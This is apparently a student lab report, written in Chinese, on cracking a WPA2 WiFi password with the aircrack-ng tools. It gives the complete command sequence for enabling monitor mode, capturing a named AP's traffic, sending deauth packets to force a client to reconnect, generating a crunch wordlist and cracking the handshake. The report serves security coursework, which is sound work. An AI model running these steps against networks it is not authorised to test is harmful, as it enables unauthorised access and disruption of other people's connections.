





# WIFI渗透实验

[toc]

## 题目一(无网卡)

### 实验要求

利用有监听功能的wifi网卡和aircraft-ng完整完成一次对wifi AP的密码破解，详细记录过程，完成实验报告。

### 实验环境

- kali-linux 2022.1
- 16g usb 2.0
- 宿主机
- 网卡：Intel wireless-ac 1650（支持混杂模式）

### 准备工作

- 网卡由于疫情原因到不了，不得已在usb内安装kali系统；
- 具体操作步骤详见：https://www.kali.org/docs/usb/live-usb-install-with-windows/
- 失败几次我的教训是不要使用etcher这个工具；
- 使用Rufus将U盘改造成启动盘；
- 在宿主机bios的boot界面将USB的优先级提升到第一，保存并推出；
- 即可在U盘中启动，在主机上运行kali。

### 实验流程

#### 设置无线网卡监听模式

- 首先列出所有可能干扰无线网卡的程序，并终止这些程序：```sudo airmon-ng check```

- 打开监听（混杂模式），并查看此时无线网卡状态：

  ```
  sudo airmon-ng start wlan0
  
  iwconfig
  ```

  

  发现此时无线网卡变为“wlan0mon”，且mode一栏变为“monitor”。

- 接着重启网卡：

  ```
  sudo ifconfig wlan0mon down
  sudo iwconfig wlan0mon mode monitor
  sudo ifconfig wlan0mon up 
  ```

  

#### 开启探测并抓包 

- 开启探测：```sudo airodump-ng wlan0mon```

  得到周围wifi信息：

- 选取我们要攻击的wifi，例如PHICOMM_63C23A，记下它的MAC地址F0:EB:D0:63:C2:3A，CHANNEL 11。

- 开始抓包：```sudo airodump-ng --ivs --bssid F0:EB:D0:63:C2:3A –w longas.txt -c 11 wlan0mon```

  --bssid 是路由器的mac地址
  -w 是写入到文件longas.txt中
  -c 11 是频道11
  --ivs 是只抓取可用于破解的IVS数据报文

#### 攻击获得WPA2握手验证数据包

- 这里为了获得破解所需的WPA2握手验证的整个完整数据包，我们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，我们也就有机会捕获到包含WPA2握手验证的完整数据包了。

- 接下来就需要进行攻击了：新开一个shell

  ```sudo aireplay-ng -0 1 –a F0:EB:D0:63:C2:3A -c 60:07:C4:8A:1E:2B wlan0mon```

  -0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等
  -a 后跟路由器的mac地址
  -c 后跟客户端（即连接在此wifi上的某一台设备）的mac地址

  

- 此时抓包界面出现“handshake”，即得到了包含WPA2握手验证的完整数据包[longas.txt-01.ivs](./longas.txt-01.ivs)，结束抓包。

#### 使用crunch得到密码字典

- crunch在kali2022.1中是自带的一个程序；

- 在shell中输入命令：

  ```
  crunch 8 8 -t YYS^%%%%  -d 4% -b 20mb -o START
  # min 设定最小字符串长度（必选）
  # max 设定最大字符串长度（必选）
  # 这里这两个值都取8，即规定密码为8位
  
  # -t 指定密码输出的格式
  
  # Crunch特殊字符
  # 1、% 代表数子
  # 2、^ 代表特殊符号
  # 3、@ 代表小写字母
  # 4、, 代表大写字符
  # 这里为了待会遍历破译更快且生成字典不要过大，给出了密码的前3位字母且给出了密码格式
  # -d 4% 表示至少出现四种不同数字
  # -b 指定文件输出的大小为20mb
  # -o 将密码保存到指定文件 后面必须为START
  ```

- 经过重命名得到密码字典：

  [passwd.txt](./passwd.txt)

#### 遍历字典破译wifi密码

- ```sudo aircrack-ng -w passwd.txt longas.txt-01.ivs```

- 耐心等候以后得到：

  

### 参考资料

- [在 Windows 上制作 Kali 可启动 USB 驱动器](https://www.kali.org/docs/usb/live-usb-install-with-windows/)

- https://www.jianshu.com/p/fd16236057df

  

